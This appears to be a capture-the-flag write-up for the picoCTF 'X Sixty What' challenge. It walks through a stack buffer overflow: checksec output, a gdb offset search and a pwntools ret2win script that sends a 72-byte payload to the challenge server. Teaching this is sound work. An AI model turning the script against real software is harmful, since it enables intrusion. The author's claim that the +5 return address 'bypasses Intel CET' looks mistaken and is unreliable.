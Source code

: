 ```yaml
---
title: "X Sixty What"
date: 2025-10-22T22:47:14+05:30
draft: False
---
```


Opening the provided `vuln.c` source code for this challenge we see that there is a `vuln` function which gets called by the `main`, we can deduce that all we gotta do is just change the flow of control from `vuln` to flag.
Also as the code in `flag` follows, we create a `flag.txt` as a prereqesite.

Running `checksec` on the given binary we get :

```bash
[*] '.../x-sixty-what/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    
```

We can see no PIE enable. So we just need to overwrite the return address to flag function on vuln function.
But first we need to find the offset, we can do so by using gdb-gef.

```bash
$rax   : 0x00007fffffffd9c0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rbx   : 0x00007fffffffdb58  →  0x00007fffffffe038  →  "/home/ankit/writeups/x-sixty-what/vuln"
$rcx   : 0x00007ffff7e038e0  →  0x00000000fbad2288
$rdx   : 0x0
$rsp   : 0x00007fffffffda08  →  "jaaaaaaakaaaaaaalaaaaaaamaaa"
$rbp   : 0x6161616161616169 ("iaaaaaaa"?)
$rsi   : 0x00000000004052a1  →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaa[...]"
$rdi   : 0x00007ffff7e05720  →  0x0000000000000000
$rip   : 0x00000000004012d1  →  <vuln+001f> ret
$r8    : 0x0000000000405305  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x1
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x0

[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

Using this above info and pwntools, we can craft an exploit.
Note that we are passing the address of flag + 5. We do this to bypass the Intel CET (Control-flow Enforcement Technology). So instead of returning to the address of flag (0x401236), you return to flag + 5 (0x40123b), which skips the endbr64 and lands cleanly at the mov rbp, rsp in the function prologue. That way the function runs normally

```python
from pwn import *

f = ELF("./vuln")
flag_pad = p64(f.symbols["flag"])
flag = p64(0x000000000040123b)      # < FLAG + 5 >


payload = b"A"*72 + flag


def main():
    p = remote("saturn.picoctf.net", 63945) 
    p.sendline(payload)                     
    p.interactive()

if __name__ == "__main__":
    main()
```

Not even a medium challenge if you ask me :):
